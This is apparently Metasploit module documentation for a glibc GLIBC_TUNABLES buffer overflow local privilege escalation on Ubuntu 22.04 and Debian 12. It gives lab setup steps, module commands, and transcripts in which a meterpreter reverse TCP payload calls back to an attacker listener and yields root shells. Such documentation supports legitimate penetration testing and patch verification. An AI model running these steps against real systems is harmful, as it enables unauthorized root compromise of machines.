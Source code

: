 ## Vulnerable Application

A buffer overflow was exists in the GNU C Library's dynamic loader ld.so while processing the GLIBC_TUNABLES environment
variable. This issue allows an local attacker to use maliciously crafted GLIBC_TUNABLES environment variables when
launching binaries with SUID permission to execute code in the context of the root user.

### Description

The GLIBC_TUNABLES environment variable is parsed in a loop and is expected to be provided in the following format:
`tunable1=aaa:tunable2=bbb`. If the variable is sent in the following format: `tunable1=tunable2=AAA` due to the
absence of the tunable delimiter `:` in the string, the value `tunable2=AAA` is handled incorrectly and results in a
buffer overflow.

### Setup

Install [Ubuntu 22.04.3](https://releases.ubuntu.com/jammy/ubuntu-22.04.3-desktop-amd64.iso) while ensuring the VM does 
not have internet access. 

Once booted up, edit `/etc/apt/apt.conf.d/20auto-upgrades` and change `APT::Periodic::Unattended-Upgrade` from `1` to
`0` to ensure to ensure the machine doesn't patch itself.

Ensure that glibc is at version 2.35-0ubuntu3.1 by running the following:
```
msfuser@msfuser-virtual-machine:~$ ldd --version
ldd (Ubuntu GLIBC 2.35-0ubuntu3.1) 2.35
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```
The target should be exploitable.

## Verification Steps

1. Start `msfconsole`
2. Get a session
3. Do: `use exploit/linux/local/glibc_tunables_priv_esc`
4. Do: `set SESSION [SESSION]`
5. Do: `check`
6. Do: `run`
7. You should get a new *root* session

## Scenarios

### Ubuntu 22.04.3 with 2.35-0ubuntu3.1 installed (ARCH_X64)
```
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set session -1
session => -1
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set lport 5555
lport => 5555
msf6 exploit(linux/local/glibc_tunables_priv_esc) > options

Module options (exploit/linux/local/glibc_tunables_priv_esc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION  -1               yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.123.1    yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto

msf6 exploit(linux/local/glibc_tunables_priv_esc) > run

View the full module info with the info, or info -d command.

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The glibc version (2.35-0ubuntu3.1) found on the target appears to be vulnerable
[*] Writing '/tmp/2Vkty.py' (13770 bytes) ...
[*] Running python3 /tmp/2Vkty.py
[+] The exploit is running. Please be patient. Receiving a session could take up to 10 minutes.
[*] Sending stage (3045380 bytes) to 192.168.123.228
[+] Deleted /tmp/2Vkty.py
[*] Meterpreter session 2 opened (192.168.123.1:5555 -> 192.168.123.228:33522) at 2023-11-15 21:58:37 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.123.228
OS           : Ubuntu 22.04 (Linux 6.2.0-35-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >

```

### Debian 12 with 2.36-9-deb12u1 installed (ARCH_X64)
```
msf6 exploit(linux/local/looney_tunables_lpe) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The glibc version (2.36-9-deb12u1) found on the target appears to be vulnerable
[*] Writing '/tmp/SnnDbAMC.py' (13770 bytes) ...
[*] Running python3 /tmp/SnnDbAMC.py
[+] The exploit is running. Please be patient. Receiving a session could take up to 10 minutes.
[*] Sending stage (38 bytes) to 192.168.123.229
[+] Deleted /tmp/SnnDbAMC.py
[*] Command shell session 9 opened (192.168.123.1:4444 -> 192.168.123.229:50854) at 2023-11-14 21:03:57 -0500

id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),113(lpadmin),116(scanner),1000(msfuser)
uname -a
Linux debian 6.1.0-10-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-2 (2023-07-27) x86_64 GNU/Linux
```
